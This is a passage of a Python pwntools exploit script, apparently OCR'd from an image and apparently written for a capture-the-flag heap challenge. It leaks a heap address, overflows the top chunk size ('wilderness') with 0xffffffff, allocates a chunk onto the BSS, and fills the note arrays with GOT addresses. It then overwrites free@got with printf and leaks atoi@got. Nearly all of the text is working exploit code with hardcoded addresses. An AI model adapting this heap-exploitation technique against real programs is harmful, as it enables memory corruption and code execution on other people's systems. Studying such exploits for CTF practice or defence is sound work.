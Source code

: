 log.info("Leak: " + hex(leak))

# Send Host and Org to overflow the wilderness
HOST = "B" * 0x40
wilderness = "\xff\xff\xff\xff"
r.send(HOST)
r.sendline(wilderness)
garbage = r.recv()

# Plan - step 1: Request a chunk to reach the BSS
r.sendline('1')
bss = 0x804b0a0

size = (0xffffffff - leak - 224) + bss - 4
log.info("Size: " + hex(size))
size = (0xffffffff ^ size) + 1
r.sendline("-" + str(size))

# Plan - step 2: Allocate another chunk on top of BSS
atoi = 0x804b03c
free = 0x804b014
r.sendline('1')
r.sendline('172')

# Plan - step 3: Fill out the lengths[] and notes[] arrays
# with pre-defined values of sizes and GOT addresses
payload = p32(4)
payload += p32(4)
payload += p32(4)
payload += p32(0) * 29
payload += p32(atoi)
payload += p32(free)
payload += p32(atoi)
payload += p32(0) * 8

r.send(payload)
garbage = r.recv()

# Plan - step 4: Change free to printf
printf = 0x80484d0
r.sendline('3')
r.sendline('1')
r.send(p32(printf))
garbage = r.recv()

# Plan - step 5: Leak atoi@got
r.sendline('4')
r.sendline('0')

garbage = r.recvuntil("Input the id:\n")
garbage = r.recvuntil("Input the id:\n", timeout=1)

atoi = u32(r.recv(4))
log.info("Atoi: " + hex(atoi))
garbage = r.recv()
